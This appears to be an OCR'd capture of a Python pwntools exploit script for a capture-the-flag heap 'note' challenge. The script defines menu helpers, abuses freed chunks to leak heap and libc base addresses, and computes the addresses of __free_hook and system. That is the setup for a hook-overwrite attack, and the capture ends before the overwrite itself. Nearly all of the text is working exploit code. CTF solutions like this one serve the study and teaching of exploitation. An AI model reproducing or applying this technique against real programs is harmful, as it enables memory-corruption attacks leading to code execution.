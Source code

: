 ```bash
edit_idx = 4

def duan():
    gdb.attach(p)
    pause()

def choice(cho):
    sla('>> ',cho)

def add(idx,size,content):
    choice(add_idx)
    sla('iput note size:\n',size)
    sla('Which one?\n',idx)
    sla('content:\n',content)

def delete(idx):
    choice(delete_idx)
    sla('which note do you want delete?\n',idx)

def show(idx):
    choice(show_idx)
    sla('which one?\n',idx)

def edit(idx,content):
    choice(edit_idx)
    sla('which one?\n',idx)
    sla('content:\n',content)


add(0,0xf8,'aaaa')
add(1,0xf8,'aaaa')
delete(1)
delete(0)

add(1,0xf8,'')
show(1)

r(9)
heap_base=u64(p.recv(6).ljust(8,'\x00'))-0x30a
leak('heap_base ',heap_base)
delete(1)


for i in range(11):
    add(i,0xf8,'')

for i in range(7):
    delete(i)

delete(9)
add(11,0x10,'')

show(11)
r(9)
libc_base=u64(p.recv(6).ljust(8,'\x00'))-0x1ecc0a
leak('libc_base ',libc_base)

free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system'] 

delete(11)
add(12,0xe0,'')

```